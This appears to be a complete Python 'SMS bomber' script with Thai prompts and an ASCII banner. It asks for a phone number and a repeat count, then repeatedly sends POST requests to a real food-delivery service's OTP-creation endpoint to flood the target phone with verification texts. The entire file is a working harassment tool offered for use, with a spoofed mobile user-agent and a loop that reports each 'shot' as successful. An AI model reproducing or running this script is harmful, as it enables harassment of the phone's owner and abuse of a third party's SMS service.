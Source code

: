 import requests,time

print("""
      
░██████╗███╗░░░███╗░██████╗
██╔════╝████╗░████║██╔════╝
╚█████╗░██╔████╔██║╚█████╗░
░╚═══██╗██║╚██╔╝██║░╚═══██╗
██████╔╝██║░╚═╝░██║██████╔╝
╚═════╝░╚═╝░░░░░╚═╝╚═════╝░
        
""")

no = input('ตัวอย่าง : 08xx\n[🎭] เบอร์: ')
jml = int(input('[🎭] จำนวน: '))

heder = {'Host': 'api2.1112.com',
'content-length': '44',
'user-agent': 'Mozilla/5.0 (Linux; Android 5.1.1; A37fw) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.71 Mobile Safari/537.36',
'accept-language': 'th-TH,th;q=0.9,en;q=0.8',
}
        
data = {"phonenumber": f"{no}","language":"th"}

print("\n[กำลังยิง]")
for i in range(jml):
      sec = requests.post('https://api2.1112.com/api/v1/otp/create', headers=heder, json=data)
      if 'eror' in sec.text:
           print(f'{i+1}. [+]ยิงสำเร็จ {no}')
      else:
           print(f'{i+1}. [+]ยิงสำเร็จ {no}')
      time.sleep(2.0)
      
#เครดิตพ'ชร'ล สุร'บุ'ตร
